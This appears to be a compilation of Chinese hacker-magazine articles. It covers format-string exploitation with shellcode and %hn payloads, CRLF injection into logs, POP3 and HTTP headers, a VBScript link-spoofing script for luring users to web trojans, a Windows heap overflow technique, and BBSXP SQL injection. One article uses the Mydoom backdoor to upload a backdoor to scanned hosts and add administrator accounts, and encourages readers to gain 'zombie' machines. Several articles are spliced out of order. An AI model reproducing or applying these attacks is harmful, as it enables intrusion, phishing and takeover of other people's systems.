脚本小子：许多黑客非常擅长攻击技巧，但往往对其攻击原理不甚明白，比如格式化字符串攻击，很多人往往就不知其所以然。为此，小编我特约作者写了下文，帮助大家真正搞明白其攻击的奥秘。下文中所有的例子都是基于 Linux/x86 体系结构的，也可以在其他操作系统下开发，但具体的 shellcode 实现会略有不同。

### 格式化字符串攻击的奥秘

文／林红

格式化字符串是有特殊格式化标识的字符序列。如果你用 C 语言编程，应该熟悉 C 语言中的函数，如 printf()，就是使用格式化字符串作为第一个参数，然后格式化字符串的变量将会被使用。例如：

```c
#include <stdio.h>

int main(void)
{
    int x = 41705;
    printf("x = %d, x / 2 = %d\n", x, x / 2);
}
```

该程序输出“x = 41705, x / 2 = 20852”。第一个参数指的是格式化字符串本身，它包括字符和格式化字符串标识。在这个例子中，使用了“%d”标记，“%d”将一个十进制有符号整数作为参数。运行时，它被 x 代替，输出 x = 41705。C 语言中还有很多其他的格式化字符串标识，如“%x”，它类似“%d”，但输出的是十六进制数；“%s”输出字符串；“%f”输出浮点数。

那么，如何把这些格式化字符串用于攻击呢？看看下面这段程序：

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
    printf(argv[1]);
}
```

这段程序仅仅输出第一个参数，如：

```bash
[root@knark] ~/research/paper > ./ex2
Hello world !
Hello world
```

那么，这段代码如何能允许攻击者进行攻击呢？比如，将 printf(argv[1]) 写成 printf("%s", argv[1])。如果 %s 被忽略了，那么 printf 将在缓冲器中搜索格式化字符串标识，在这个例子中，是 argv[1]。

```bash
[root@knark] ~/research/paper > ./ex2 "AAAA %x %x"
AAAA 40143868 bffffc58
```

现在来看可能会发生什么情况。printf() 认为“%x”是一个格式化字符串标识，然后执行“%x”的功能，输出堆栈中无符号以十六进制表示的整数的下 4 个字节。据此，我们可以随意输出我们想要的字符串。试运行这段程序：

```c
#include <stdio.h>

int main(void)
{
    char secret[] = "hack.se is lame";
    char buffer[512];
    char target[512];

    printf("secret = %p\n", &secret);
    fgets(buffer, 512, stdin);
    snprintf(target, 512, buffer);
    printf("%s", target);
}
```

```text
[root@knark] ~/research/paper > ./ex3
secret = 0xbffffc68
AAAA%x %x %x %x %x %x %x
AAAA4013fe20 0 0 0 41414141 33313034
30326566
```

所有的格式化字符串都有弱点。在这个例子中，snprintf() 被误用。如何导致这种误用？我们首先给它赋值“AAAA”，然后，发现 $esp 和 buffer 的状态。正如我们看到的，5 个“%x”之后是 41414141，这是 AAAA 的十六进制表达式。我们现在知道了 buffer 处于 esp 的前 5×4 = 20 个字节。那么，字符串数组 secret[] 将输出什么内容呢？

我们知道现在 buffer 的状态是 esp 寄存器的 5 个 A；我们可以给 %s 提供一个地址。%s 把这个地址当作参数，会输出任意状态的字符串。我们把 bffffc68 提供给 %s，x86 系统是 little endian，赋值时我们要把低字节放在前。

```text
[root@knark] ~/research/paper > printf "\x68\xfc\xff\xbf%%5\$s" | ./ex3
secret = 0xbffffc68
h?!/????hack.se is lame
```

%s 输出了 secret[] 数组的内容 0xbffffc68。所以，现在我们可以知道，通过格式化字符串，可以输出任何信息。那么，如何利用 Shell 呢？

#### 具体过程

有一个格式化字符串标识符还没有介绍——%n，它非常有用。%n 用于把前面输出的字符数记录到一个变量中，也用于统计格式化的字节数。看看下面的代码：

```c
#include <stdio.h>

int main(void)
{
    int x = 0;
    printf("ABCDEFG\n%n", &x);
    printf("Written bytes: %d\n", x);
}
```

```text
[root@knark] ~/research/paper > ./ex4
ABCDEFG
Written bytes: 8
```

“ABCDEFG\n”是 8 个字节，数字 8 会写到 x 里。就像我们可以利用 %s 来读取任意位置的任意信息，我们也可以利用 %n 来往任意位置写任意信息。请看这段程序：

```c
#include <stdio.h>

int main(void)
{
    int x = 5;
    char buffer[52];

    printf("&x = %p\n", &x);
    fgets(buffer, 52, stdin);
    printf(buffer);
    printf("x = %d\n", x);
}
```

```text
[root@knark] ~/research/paper > ./ex5
&x = 0xbffffc74
test
test
x = 5
```

我们知道 x 的状态是 0xbffffc74。类似于 %s，%n 将我们提供的地址作为变量。接着看：

```text
[root@knark] ~/research/paper > ./ex5
&x = 0xbffffc74
AAAA%x %x %x %x %x %x %x %x
AAAA34 4013fe20 401217d4 8049574 8049678
0 0 41414141 25207825
x = 5
```

我们可以看到，偏移量是 8。如前所说，我们可以写一个格式化字符串：[4 byte address]%[offset]$n，“$”表示把它之前的作为参数个数，例如：

```c
#include <stdio.h>

int main(void)
{
```

```text
printf("%3$d %2$d %1$d \n", 1, 2, 3)

[root@knark] ~/research/paper > ./dollah
3 2 1
```

ecx 的状态是 bffffc74。

```text
[root@knark] ~/research/paper > printf "\x74\xfc\xff\xbf%08x$n" | ./ex5

&x = 0xbffffc74
[1/4???x = 4

[root@knark] ~/research/paper >
```

如上所示，x = 4。分析一下格式化字符串，我们会发现，因为我们给 x 赋值的是 4 个字节，所以输出的字节数是 4，这个数值会写入 bffffc74。

### 编写 Shell

通过内存溢出，我们可以改写返回地址，以此来执行代码。本地开发最简单的方法是重写在 ELF 二进制的 .dtors 部分，加上一个地址，指向我们的 shellcode。.dtors 的内存地址指向的机器代码会在程序结尾处被执行。

```text
[root@knark] ~/research/paper > objdump -h ex5 | grep dtors
18 .dtors 00000008 08049648 08049648 00000648
2**2
```

根据 objdump，我们可以轻松地发现 DTOR_LIST 是 0x08049648，DTOR_END——我们修改过的、存放我们 shellcode 地址的地方——总是 DTOR_LIST + 4，在上例中也就是 0x804964c。很明显，.dtor 部分的地址已经确定了。现在我们知道了攻击程序的地址如何写入，那么，我们应该把 shellcode 存储在哪里？最简单的方法是把它们存放在环境变量中。下面我们写一段程序，把 egg 存入 env：

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

char shellcode[] =
```

```c
"\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xeb\x13\x59\x29\xc0\xb0\x04"
"\x29\xdb\x43\x29\xd2\xb2\x0a"
"\xcd\x80\x29\xc0\x40\xcd\x80"
"\xe8\xe8\xff\xff\xff"
"HelloKitty";

main(int argc, char *argv[]) {
    setenv("EGG", shellcode, 1)
    system("bash")
}
```

这段程序将一个“egg”存入环境变量中，使得一些 shellcode 输出“HelloKitty”。下面让我们看一下它具体存放在哪里。

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    printf("Egg address: %p\n", getenv("EGG"));
}
```

```text
[root@knark] ~/research/paper > ./egg
[root@knark] ~/research/paper > ./getegg
Egg address: 0xbffffdc0
```

现在，我们了解了如何利用格式化字符串的所有技巧。使用一个格式化字符串有两个主要的方法：一是每次写 1 个字节，二是每次写 2 个字节。它们有什么不同？实际上没有太多不同。每次写 2 个字节对 CPU 和内存要求比较高一些。个人推荐第一种方法。让我们一起写一个。

目的地址：804964c

内容：bffffdc0

x86 是 little endian，我们要先写低字节，再写高字节。首先，写 0xfdc0（2 bytes）到 804964c，然后写 bfff（2 bytes）到 804964c + 2（804964e）。

### 用回车与换行 
 实现注入攻击

文／小金哥

脚本小子：经常编写程序的朋友可能都和“CR”和“LF”这两个字符打过交道，这是两个常用的不可打印字符，作用是回车和换行。对这两个字符的处理看似简单，但如果不注意的话会涉及到很多的安全问题，尤其是发生在非信任输入（也就是没有完全控制用户输入的时候）时，听起来是不是很神奇？就让我们一起来揭开它的神秘面纱吧……

CRLF 攻击的方法很多，但大多需要与具体涉及到的文件与协议挂钩，才能发挥最大的效用。下面我们就针对应用最广泛的几个方面来分别类比进行描述，方便大家理解。

### 日志文件

日志文件是一些日志记录构成的，通常是标准的文本文件，由 LF、CRLF 或仅有 CR 分隔开。如果在创建日志时 CR 和 LF 在输入过程中没有被过滤，那么我们就可以伪造一条日志。举个例子，假……

我们使用了 %n，这就意味着我们必须使用内部字节计数器。但这是不可能的，因为没有那么多磁盘缓存能允许贮存 65000 比特。所以，我们使用 %n 来增加内部字节计数器而不给内存分配空间。因此，printf("%.500uHello%n\n", &x) 语句会使 x = 500。首先，我们写：

已写 = 64960  
要写 = 114687 − 64960 = 49727

```bash
[root@knark] ~/research/paper > printf "\x4c\x96\x04\x08\x4e\x96\x04\x08" > file
fd0 = 64960
```

```bash
[root@knark] ~/research/paper > echo -n "%.49727u%9$hn" >> file
[root@knark] ~/research/paper > cat file | ./ex5
&x = 0xbfffc44
0000000000000000000... A LOT OF 0's ...
00000001075052064x = 5
HelloKitty
```

这是我们想要存储的第一个值。既然我们已经写了 8 个字节（目的地址），我们只需增加 64960 − 8 = 64952。我们使用 %hn，而不是 %n。%hn 写 2 个字节。

好了，shellcode 执行了，输出了“HelloKitty”。正如你看到的一样，写一段本地开发非常简单，使用 objdump 并将 shellcode 存入 env 即可。通过 %n 强制获取偏移量也非常简单，你可以使用“AAAA%[n]$x”，从 1 开始。如果结果包含了“AAAA41414141”，那么你就成功了！

```bash
[root@knark] ~/research/paper > echo -n "%.64952u%8$hn" >> file
```

> **注意：**  
> 8 是格式化字符串中 buffer 的偏移量。现在，我们已经写了 64960，下面要写 0xbfff（49151）。这里有个问题，49151 比刚才写的 64960 小。我们必须“rollover”，我们写 0x1bfff（114687）来代替 0xbfff，“1”总之会被丢弃。

### 编后

看了上面关于格式化字符串攻击的解析，一直萦绕心头的疑惑是不是迎刃而解了？只要仔细研究这个问题，编写出自己的 Shell 也不是什么难事；因为现在我们不仅是知其然，而且还是知其所以然的。

如有个日志文件由日期域、用户域和注释域构成，如下所示：

```
2002-04-30 hans One log entry
2002-05-01 ulf Another log entry
```

如果日志文件是通过以下 Perl 语句存取的：

```
print LOG "$date $user $comment\n";
```

并且 `$comment` 变量没有过滤 CRLF，那么我们就可以通过给 `$comment` 变量赋值为 `"Another log entry\n2002-05-01 root This is serious!"` 伪造下面的日志记录：

```
2002-05-01 root This is serious!
```

> **编者注：**
> 在 Perl 中 `\n` 表示换行；CRLF 用 URL 编码的方式表示为 `%0d%0a`。

现在大多数 HTTP 服务器都支持形如 `%00` 编码方式的请求，主要目的是提供可靠的双字节信息的传输，但在记录日志时记录的是解码后的请求而不是原始请求，这就导致了一个安全问题。入侵者可以通过发送 `%0d%0a` 或 `%u0d0a` 在日志中产生换行，从而可以伪造日志，使入侵行为淹没在大量虚假日志中，难于找到真正的入侵者，给入侵分析带来困难。早些时候的 IIS 也存在类似的漏洞，通过换行入侵者可以伪造一次真正的扫描日志。

### POP3 协议

许多网络协议规定客户端向服务端发送命令时以 CRLF 结尾，如果输入中 CRLF 没有被过滤而是作为命令的一部分，那么我们可以一次发送几个命令。看看 POP3 协议吧，POP3 协议用“RETR x”接收信息，“DELE x”删除信息，假如客户端构造“RETR $msg\015\012”这样的语句接收邮件，而且 `$msg` 没有过滤 CRLF，那么只要给 `$msg` 赋值“1\015\012DELE 2”，那么，这个 Perl 命令就成了：

```
RETR 1
DELE 2
```

意思是我读了第一封邮件，删除了第二封邮件。

> **编者注：**
> 在 Perl 中 `\015\012` 表示回车换行，即 CRLF。

### NNTP 协议

同样地，NNTP 协议也用命令“ARTICLE x”来读取邮件，用“post”命令来发送邮件。如果客户端构造“ARTICLE $id\015\012”这样的语句接收邮件，而且 `$id` 没有过滤 CRLF，那么我们可以构造一个 `$id`，一边读邮件，一边安静地发送，效果和 POP3 一样。

> **注意：**
> 以上案例都符合这种结构：`<KEY><SEP><VAL><NL>`。这里 `<KEY>` 可以是“DELE”，`<SEP>` 是空格，`<VAL>` 可以是 1，`<NL>` 是 CRLF；如果 `<VAL>` 域由用户输入，并允许包含 `<KEY>`、`<SEP>` 和 `<NL>` 域的数据类型，那么我们可以定义漏洞就存在了，这也是一种分析 CRLF 漏洞的方式。

### Mail、News 和 Web 头

电子邮件、新闻和网页文件头符合“KEY: VALUE”结构，每行由 CRLF 分隔。

HTTP 规定了“Location:”是重定向字段，“Set-Cookie”是设置 cookies 命令。通过在用户的输入里面加一些 CRLF，当 Web 脚本重定向到另一站点时，可能上了自己的 Web 服务器的当，而设置一个 cookie。比如，这个重定向脚本是这样的：“Location: $url\015\012”，并且 `$url` 变量没有过滤 CRLF 字符，我们可以通过给 `$url` 变量赋值 `http://www.kuro5hin.org/\015\012Set-Cookie: evil=natas` 来重定向到一个网站时同时设置 cookie。如果这个 cookie 包含重要数据并且用户能保存 URL 的 cookie，那么别的用户就可能被重定向，这样问题就很严重了。

通过同样的技术，电子邮件系统能揭示一些匿名用户的身份。比如我们有一个系统，用户可以给其他用户发送邮件，但收件人的真实地址是隐藏的（比如是昵称）。如果我们能够给邮件头赋值，比如“Subject:”（主题），并且假设系统没有过滤 CRLF 字符，那么，我们可以在“Subject:”里加上 CRLF，然后是“Bcc:”域，再加入我们自己的邮件地址，邮件在发送的同时，它也给我们抄送了一封，这样我们就能得到收件人的真实地址。

上面所叙述的也符合这种结构：“<KEY><SEP><VAL><NL>”，这里 `<KEY>` 是“Subject”，`<SEP>` 是“:”，`<VAL>` 是“CRLF Injection”，`<NL>` 是 CRLF。

### 总结

如果在程序中存在 CRLF 漏洞，这对程序的安全来说可能是个致命的打击。还有一些其他情况，可能存在一个低优先级的 Bug，这完全取决于这个漏洞能够被用户做什么和用户能不能利用，因此大家在编写程序的时候，就要关注一些细小的漏洞，一点疏忽都可能带来致命的打击。

#### 编后语

网络技术的发展像是在飞，网络漏洞的挖掘像是采矿，在知识爆炸的今天，你愿意放过一个对你有价值的信息吗？就如 CRLF 漏洞一样，它带给我们的启发是很大的，如何深入利用大家可以去深掘，如果你有了什么新的想法，千万记得发给我。Scriptsboy@hacker.com.cn。

### 域名欺骗

脚本小子：网页木马种植方案一直都存在很大的问题，欺骗过程需要技巧也需要时间，很多人觉得是一件很麻烦的事情，不过相信看完此文后，你的观点就会改变了。欺骗有时候也是非常简单的事情，现在就来告诉大家如何利用浏览器的最新漏洞来实现域名的欺骗……

域名欺骗有多种实现方法，本文所说的是利用客户端浏览器的漏洞来欺骗用户，多数浏览器都会存在这个漏洞。

漏洞描述：当用户通过浏览器访问一个 URL，如果这个 URL 是经过以下的格式构造的，浏览器实际将访问经过构造后的恶意页面，而用户浏览器的地址栏里所显示的却是虚假的 URL。

```
URL 的构造格式为：http://[URL_1][SPECIAL_CHAR]@[URL_2]

URL_1：用户所看到的地址，地址中不可以带“/”

SPECIAL_CHAR：一个特殊的字符，即 ASCII 码为 1 的字符

URL_2：恶意页面地址
```

#### 利用过程

首先看看下面的测试页面：

```html
<html>
<head>
<title>域名欺骗技术实例</title>
</head>
<body link="#0000FF" alink="#0000FF" vlink="#0000FF">
你可以看看这两个链接有什么区别：<br>
<H1>链接1：<script language="VBScript" src="deceive.vbs"></script></h1>
<H1>链接2：<a href="http://www.163.com">www.163.com</a></h1>
</body>
</html>
```

这个网页源代码中，链接1指向了一个 VBS 脚本，而链接2指向的是 163 站点。如果我们把链接1的 VBS 脚本改成下列代码：

```vb
' deceive.vbs
' （以下请根据实际情况自行修改）

url1="www.163.com"
url2="www.google.com"
text="www.163.com"
url="http://"&url1&Chr(1)&"@"&url2&"/"
dir=""
mouseover="onMouseOver=""javascript:window.status='http://"&url1&dir&"'"""
mouseout="onMouseOut=""javascript:window.status=''"""
click="onClick=""javascript:navigate('"&url&"')"""
style="style=""cursor:hand"""
tag="<span "&style&" "&mouseover&" "&mouseout&" "&click&"><font color=""#0000FF""><u>"&text&"</u></font></span>"

document.Write tag

说明：
url1 是用来欺骗用户的地址。
url2 是实际访问的地址，可以是网页木马、恶意网页等。
text 是链接的文字。
注意：（以上欺骗地址及实际地址不可以加 "http://"）

——— Cuts Here ———
```

现在大家看到了吧，当我们点击这个测试页面的时候，链接1指向的是“www.google.com”，而且状态栏和地址栏里显示的是 `http://www.163.com/`，你也许感到不可思议，但这就是域名欺骗漏洞的魅力。

我们可以想像，如果以上的测试页面中链接1指向的不是 `www.google.com`，而是经过我们精心构造的网页木马，结果想必大家都很清楚吧。

不过，一个普通的个人网站没人会看的，这就需要我们把这种假链接添加到别的“有诱惑力”的网站页面中。假设我们入侵了一个比较大的网站，就可以把它的页面给修改了。我们把代码中的 `<a href="xxxxx.htm">xxxxxx</a>` 改为自己的代码，`<script language="VBScript" src="deceive.vbs"></script>`。看到 `src` 属性里的 `deceive.vbs` 了吗？我们要编辑好这个文件，然后上传到要修改的页面目录下。仅此还不行，还要把自己木马网页的界面修改一下，也就是把原来链接到的页面加入到我们自己的木马网页中，并且木马网页里的所有链接等内容要和原来的页面一样，否则就会引起用户的怀疑。

先把 Google 网站的首页源代码全部复制下来，添加到我们的网页木马中，然后把复制下来的代码中的图片或者是链接的文件都修改完整，比如 `logo.gif` 改为 `http://www.google.com/logo.gif`，否则网页就和原来的不一样了（图片显示为红色×，链接也失效）。修改好后就可以保存文件并上传到你的网页空间里了。（工作算是完成了，喝一杯咖啡，小憩一会……）

当我们进入这个网站后，点击修改过的链接，你会发现和原来的页面几乎是一模一样（当然，也有些细微的区别，不过一般很难觉察），就当别人正在浏览这个网页的时候，他已经在不知不觉中了木马（此时的你一定在诡异地笑吧），呵呵。

### 编后

其实只要我们真正理解了域名欺骗的原理，知道如何利用此漏洞，一切欺骗都会变得非常简单，而且隐蔽性很高。真的，域名欺骗并不像我们想像中的那么复杂。另外，本文需要的测试页，我们已经收录入光盘杂志相关栏目中，按照文章名查找即可。

难度等级：高

前置知识：堆溢出基本原理

> 脚本小子：在一些朋友看来，溢出是个很复杂的问题，不过这种看法在你有了真正动手实践之后或许会得到极大改变。Heap 溢出的相关文章我们在网上可以找到不少，本文提出了一种新的堆溢出技术，如果你对溢出方面的基础知识还不甚了解，建议你先看看相关基础资料。

文/OYXin

### Windows heap 溢出新技巧

这里建议先看看 isno“Windows 下的 HEAP 溢出及其利用”这篇文章，isno 的文章提到了在堆溢出中的一个难点就是 shellcode 定位的问题。他演示的一个解决方法是用 shellcode 的地址来直接定位，并且在 shellcode 前面放上大量 NOP 来提高成功率，这篇文章主要是介绍一个更好的方法。很多 msrpc dcom heap exploit 和 Windows Messenger heap exploit 都是采用的这种方法。

异常的处理指针就是 `0x77ec144c`，用上面的方法在 kernel32 里面找到 `UnhandledExceptionFilter` 这个函数反汇编。当一个 unhandled exception 发生的时候，有如下的代码会被执行。

调试系统环境：

- vmware windows 2000 sp4 中文版
- tool：ollydbg 1.10，vc++ 6.0，python

```asm
77E9BDB1: MOV EAX, DWORD PTR DS:[77EC144C]
77E9BDB6: CMP EAX, EBX
77E9BDB8: JE SHORT KERNEL32.77E9BDC7
77E9BDBA: PUSH ESI
77E9BDBB: CALL EAX
```

首先看看一个有漏洞的程序（修改自 isno 的程序，懒得自己写了，删除了无用代码节约篇幅）。

（详细代码请看光盘！）

然后我们对该程序进行编译：

`cl winheap.c /link /release`（这里一定要 release 编译），再运行 winheap，用 ollydbg attach winheap 这个进程，按 F9 运行。打开 ollydbg -> View -> Executable modules -> 选择 KERNEL32，点右键选 view names -> 在列表中选 SetUnhandledExceptionFilter，点右键选 Follow in disassembler，可以得到下边汇编代码：

我们将会用指向 shellcode 的指针覆盖 `0x77ec144c` 的内容，这个指针最后会被 `call eax` 来执行。但是这之前可以看到 `esi` 被压入栈，也许我们能用 `esi` 来定位 shellcode 的指针地址。

我们写一个程序发送数据包到我们的弱点程序，覆盖了整个堆、8 个字节的管理结构，还有 eax、ecx，可以用 `0x01020304` 覆盖 eax（一会我们会用 shellcode 指针来代替这个地址），用 `"\xeb\x14\x90\x90\x90\x90\x90\x90"` 覆盖 8 个字节的管理结构，为什么这样做后面将会讲到，嘿嘿。最后用 `0x77ec144c` 覆盖 ecx，这个时候可以看到调试器截获了异常并且显示如下代码：

```asm
77E6BC57: MOV ECX, DWORD PTR SS:[ESP+4]
77E6BC5B: MOV EAX, DWORD PTR DS:[77EC144C]
77E6BC60: MOV DWORD PTR DS:[77EC144C], ECX
77E6BC66: RETN 4
```

```asm
77FCC663: MOV DWORD PTR DS:[ECX], EAX
77FCC665: MOV DWORD PTR DS:[EAX+4], ECX
```

这里可以看出 Windows 2000 sp4 中文版本默认这段代码将会用 `0x01020304` 覆盖 `0x77ec144c` 的内容。如果 `0x01020304` 指向我们的 shellcode，那么在触发异常并且由系统默认异常来处理的时候，shellcode 将会运行。

输入命令 `dd esi`，看到 `esi` 指向的内容刚好是 `"\xeb\x14\x90\x90\x90\x90\x90\x90"`，记住这个，转 20 页。

脚本小子：最近网上最热门的话题恐怕就是 Mydoom 病毒了吧？的确，Mydoom 病毒给整个网络又带来了一场蠕虫灾难。不过，事物都有其两面性，记得以前的 SQL 蠕虫和 RPC 蠕虫等给了我们许多练手的机会（我这不叫趁火打劫哦，这叫敏锐的洞察力）。这次 Mydoom 我们又怎么能放过呢？还是来看看怎么利用它来练手吧！

### Mydoom 病毒的利用

文/图 -273.15℃

Mydoom 的传播特性我就不在这里多废话了，而要着重说的就是它具有“黑客”性质的一面。关于它的原理，请大家参阅本期防册上的《揭开 Mydoom 病毒的神秘面纱》一文。

既然知道了它的原理，那么我们寻找中招的肉鸡也就有了思路。由于它首先开放的是 3127 端口，如果该端口被占用那么就会依次增加，但不会超过 3198 端口。于是我们有两种工具可以利用，一种是普通端口扫描工具，比如大名鼎鼎的 Superscan 等，这样的工具虽然速度快，但针对某一特殊端口其准确率会大大降低；另一种就是专用扫描器。这里我给大家推荐的是 Foundstone 公司发布的专门针对 Mydoom 病毒的扫描器——W32.Mydoom Scanner！

扫描工具有了，我们就开始第一步吧。我们可以选择一个大点的 IP 段，本文选了一个 C 类（由于是国内 IP，这里把它全部屏蔽了），一般都按默认选项就可以了。扫描结果如图1所示，找到了一台 3127 开放的端口。漏洞主机找到了，下一步就是拿下它了！

```text
D:\mydoom>nodoom
********************************
*****  MyDoom.A Upload/Exec Backdoor by SPiKe  *****
****  Usage: nodoom <ip> <port> <program to upload>  ****
********************************
```

其用法如下：

```text
Nodoom 目标ip 目标开放端口（即用扫描器扫到的端口，这里是3127） 要上传执行的文件
```

本文要上传执行的文件选择了后门工具 devil5，它配置起来方便（图2），配置完后我们就可以入侵了！

图1

下面该使用我们的关键工具 `nodoom.exe` 了，运行后显示如下：

图2

打开 CMD 窗口，输入：

```text
Nodoom xxx.xxx.xxx.xxx 3127
devil5.exe
```

运行结果如图3所示：当出现“All done, server has now executed your executable!”就说明你的后门已经上传成功并执行完毕！下面该验证一下了，结果如图4所示：

图3

图4

由于使用的是后门的原因，当 telnet 后的界面是什么都没有的（图4的上图是 telnet 执行前的，下图是执行后的），到底是不是成功了，我们来执行个命令看看吧。输入：

```text
net user superlone /add >5201314
```

回车后提示：

```text
the command completed successfully
```

说明命令成功执行了（还是由于后门本身的缘故，回显的效果很差，大家就凑合着看吧）。下一步当然是添加管理员了，也一样得到了成功执行（图5）。

图5

到这里，我们的整个人侵过程可以告一段落了，有了管理员账户，剩下的工作大家应该比我更熟练了。其实这篇文章的初衷，不是让大家去找什么肉鸡，而是想让大家明白一点，入侵没有什么定式可言，只要结果是成功的，选择什么方法完全取决于你个人。

### 续编后

相信很多人都会雀跃不已的，因为 Mydoom 又给了我们一个扩充自己肉鸡队伍的机会，还在为肉鸡发愁的新手们，赶紧行动吧。本文提到的工具我们已经收录入光盘杂志相关栏目中，按照文章名查找即可。

接 18 页：

这时候 `esi` 的内容是 `0x00ac0790`，因为加载了调试器和没有加载调试器异常处理是不一样的；为了知道系统到底如何处理了，我们可以耍一个小花招：

```asm
77E9BDDE  CALL DWORD PTR DS:[<&NTDLL.NtQueryInformationJobObject>]
ntdll.ZwQueryInformationJobObject
77E9BDE4  CMP EAX,EBX
77E9BDE6  JL SHORT KERNEL32.77E9BDF2
77E9BDE8  TEST BYTE PTR SS:[EBP-57],4
77E9BDEC  JNZ KERNEL32.77E9C033
```

这里改变 `jl 77e9bdf2` 为 `jge`，`77e9bdf2` 就能让系统以为没有加载调试器了。

`shift+F9` pass 异常后，ollydbg 就会提示无法执行 `0x01020304` 了。此时 `esi` 的内容是 `0x0012e858`，`dd esi` 并且观察堆栈，发现 `0x0012e8a4` 刚好指向 `0x00ac0790`！

`0x0012e8a4 - 0x0012e858 = 0x4c`

这样就好办了，我们用 `call [esi+0x4c]` 代替 `0x01020304` 来覆盖 `0x77ec144c` 就行了。找到 `call [esi+0x4c]` 对应的指令为 `FF 56 4C`，并且用跟找 `FF E4` 类似的原理在内存中找到这个指令对应的地址。在 `user32.dll` 里面找到一个 `0x77e2f714`，最后覆盖之后的程序执行流程就是异常后执行 `call [esi+0x4c]`，执行 `"\xeb\x14\x90\x90\x90\x90\x90"`，然后就跳到了我们的 shellcode 执行。

程序如下：（详细程序请看光盘！）最后测试一下，成功无误，在朋友机器上面测试也是没有问题，Windows heap 溢出新技巧，就这样简单！

脚本小子：提到BBSXP，相信大家对 PsKey 兄弟在2003年第6期发表的《BBSXP多个文件存在 SQL Injection 漏洞》还印象颇深。对于这款在其以前的说明文档中有“经过将近3年的测试，可说是不存在任何 BUG”这句话的论坛软件来说，或许今天又难免尴尬。不过对于广大读者朋友来说，能够感觉到的就是更多的惊喜了！

## 再次挑战BBSXP论坛



BBSXP 是 Yuzi 工作室开发的 ASP 论坛。BBSXP 的应用虽不及 dvBBS 广泛，但漂亮的界面和快捷的反应速度仍使其占有了不小的市场。很长一段时间以来，各类脚本漏洞文章都集中在 dvBBS 上面，对 BBSXP 的介绍似乎相对少了许多，小弟我斗胆出来献丑，一来是试图填补一下空白，二来做出抛砖的架势，希望能够引出高手之玉来。

我下载的是 BBSXP 4.11 正式版本，链接地址是 http://www.bbsxp.com/download/bbsxp.zip。BBSXP 官方似乎也用了这个版本，因为在对 http://www2.bbs3000.com 的测试中，就下载版本分析所得到的漏洞基本上都在此顺利地重现了一遍。

第一个分析的目标锁定在了最后二个文件 usertop.asp 上。我是按照程序的执行流程来查看的，因为它首先 include 了另外一个文件 setup.asp，很自然地，目标就转到分析 setup.asp 上面了。

setup.asp 一开始 include 了 conn.asp，这个只是表明一下数据库的位置和一些基本的连接设置，看起来不会有什么问题。接下来是论坛常量的设置，也不会有什么问题。再接下来的就是一些函数的设定，虽然没有直接调用而造成漏洞，但就声明而言，已经可以看到很多不合理的地方。

在 top 这个过程中，很明显有注入的可能，如下：

```asp
if Request.Cookies("username")<>empty then
    sql="select * from [user] where username='" & Request.Cookies("username") & "'"
```

Cookies 是可以伪造的，比如当前很流行的 iecv 就可以很方便地更改 Cookie 值。所以仅仅是判断了 Cookie 中的 username 是否为空远远不够，除非在调用 top 过程之前有了很严格的判定。这下子我们的心里已经有数了，如果没有判定 Cookie 的合法性而直接调用了 top，就会有被利用的可能。从这个地方就可以看出，写脚本的人思维是不严密的，好一点的写法是要么就简单地直接构造，把合法性的判断交给调用者来完成，要么这里就写上完整的判定，一劳永逸地断了攻击者的念头。

暂且把这个放一放，继续往后面看。succeed、error 和 error2 三个子过程都存在跨站脚本漏洞的潜在威胁，简单地说，因为这3个过程都带了参数进入，而且没有对参数进行必要的检查就直接输出。可以设想有这么一个过程，如果我可以永久性地控制其中的输入参数——通常是通过写入数据库的一些内容，而且通过这几个子过程可以传给其他的用户，那么就可能被利用作跨站攻击。

我们把这个也放一放，再往后面看。ForumTree 和 BBSList 两个子过程存在的问题是，传入了一个参数，没有检查参数就直接利用在构造 SQL 语句中，和前面的一样，如果在调用子过程前没有对参数进行严格的检查，那么肯定会被利用。当然，这只是潜在可能的问题，我们并不确定是否会出现这样的情况。

最后看看子过程 log。就潜在的问题看来，和 ForumTree 与 BBSList 两个子过程存在的问题是一样的，更进一步的，这个子过程还有其独特的地方，来看代码：
